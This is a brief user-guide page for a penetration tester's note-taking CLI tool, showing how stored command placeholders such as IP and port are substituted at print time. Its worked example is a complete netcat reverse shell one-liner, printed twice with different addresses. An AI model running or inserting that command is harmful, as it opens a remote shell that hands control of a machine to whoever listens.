 ```yaml
---
description: How to replace placeholders  
---
```

You can use placeholders and code snippets to easily modify and copy regularly used commands.  
**Example - original note output**  
```
$ ngt print 3
descripton: nc reverse shell oneliner
format: slim
note: /home/kali/Documents/noteagator_userguide/nc.md
placeholders:
  i: 10.10.10.10
  p: 9595
---
Command 
--copy 1 $ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 9595 >/tmp/f 
```
**Example - print with placeholders replaced**
```                                           
$ print 3 -i 127.0.0.1 -p 8080 --copy 1
descripton: nc reverse shell oneliner
format: slim
note: /home/kali/Documents/noteagator_userguide/nc.md
placeholders:
  i: 10.10.10.10
  p: 9595
---
Command 
--copy 1 $ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 8080 >/tmp/f 
```